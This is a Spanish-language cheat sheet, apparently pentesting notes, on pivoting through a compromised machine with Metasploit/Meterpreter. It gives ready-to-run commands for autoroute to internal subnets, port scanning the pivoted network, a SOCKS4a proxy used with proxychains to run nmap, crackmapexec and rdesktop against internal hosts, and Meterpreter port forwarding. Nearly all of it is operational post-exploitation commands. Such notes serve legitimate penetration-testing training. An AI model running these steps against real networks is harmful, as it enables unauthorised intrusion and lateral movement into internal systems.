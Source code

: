 # Pivoting y Portforwarding: Metasploit/meterpreter

## 🧭 [1] Enumerar interfaces en la máquina comprometida

```bash
meterpreter > ipconfig
```
> Muestra todas las interfaces de red disponibles en la máquina víctima. Útil para identificar redes internas alcanzables para pivoting.

---

## 🔁 [2] Pivoting automático con `autoroute`

### Paso 1: Cargar el módulo autoroute

```bash
msf6 > use post/multi/manage/autoroute
```

### Paso 2: Configurar sesión y red

```bash
set SESSION 1
set CMD add
set SUBNET 172.16.113.0
set NETMASK 255.255.255.0
run
```
> Agrega automáticamente una ruta interna a través de la sesión Meterpreter para que puedas lanzar otros ataques a esa red.

### Paso 3: Ver rutas activas

```bash
set CMD print
run
```

O directamente:

```bash
route print
```
> Muestra las rutas disponibles para pivoting desde Metasploit.

---

## 🧰 [3] Usar módulos de escaneo sobre la red pivoteada

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.16.113.0/24
set PORTS 80,135,139,443,445,3389
run
```
> Escaneo TCP a través de la sesión con autoroute configurado.

---

## 🌐 [4] Pivoting manual con SOCKS4a + proxychains

### Paso 1: Levantar proxy SOCKS

```bash
use auxiliary/server/socks4a
run
```
> Abre un proxy SOCKS en `127.0.0.1:1080` para enrutar tráfico externo.

### Paso 2: Verificar que Metasploit reconoce la sesión para proxy

```bash
route print
```
- Usar multi/handler y configurar la ruta de ser necesario:

```
route add 172.16.113.0/24 12
```

> Asegurate de que tu sesión aparece como gateway para la red deseada.

### Paso 3: Configurar proxychains

Editar `/etc/proxychains.conf` y al final dejar:

```
socks4 127.0.0.1 1080
```

### Paso 4: Usar herramientas externas

```bash
proxychains nmap -Pn -sT -p 445 172.16.113.10
proxychains crackmapexec smb 172.16.113.10 -u user -p pass
proxychains rdesktop 172.16.113.10
```

---

## 🚪 [5] Port forwarding (redireccionamiento de puertos)

### Local port forward (atacar desde Kali a servicio remoto)

```bash
meterpreter > portfwd add -l 4444 -p 3389 -r 172.16.113.10
```
- `-l`: Puerto local en Kali.
- `-p`: Puerto remoto en la red interna.
- `-r`: IP remota dentro de la red pivoteada.

> Esto te permite hacer `rdesktop 127.0.0.1:4444` como si estuvieras conectado directamente.

### Ver forwards activos

```bash
meterpreter > portfwd list
```

### Eliminar un forward

```bash
meterpreter > portfwd delete -l 4444
```

---

## 🔒 [6] Borrar rutas agregadas por autoroute (si hace falta)

```bash
set CMD delete
set SUBNET 172.16.113.0
set NETMASK 255.255.255.0
run
```


